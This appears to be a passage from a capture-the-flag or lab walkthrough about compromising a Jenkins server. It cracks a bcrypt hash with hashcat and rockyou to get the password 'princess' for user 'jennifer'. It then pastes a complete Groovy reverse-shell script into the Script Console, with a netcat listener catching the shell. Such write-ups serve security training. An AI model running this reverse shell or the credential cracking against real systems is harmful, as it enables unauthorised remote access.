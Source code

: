 We store the hash in a file named hash
```bash
echo "$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a" > hash
```

let's crack this via hashcat
```bash
hashcat -m3200 hash /usr/share/wordlists/rockyou.txt
```

We get the password which is "princess"

We login to the jenkins with username of "jennifer" and password "princess"

![](Files/image7.png)

We try to get reverse shell using groovy script
> Manage Jenkins > Script Console

```
String host="<ip>";int port=9001;String cmd="bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

On host we set up a listener
```
nc -lnvp 9001
```

executing the script will invoke a shell connection for our listener
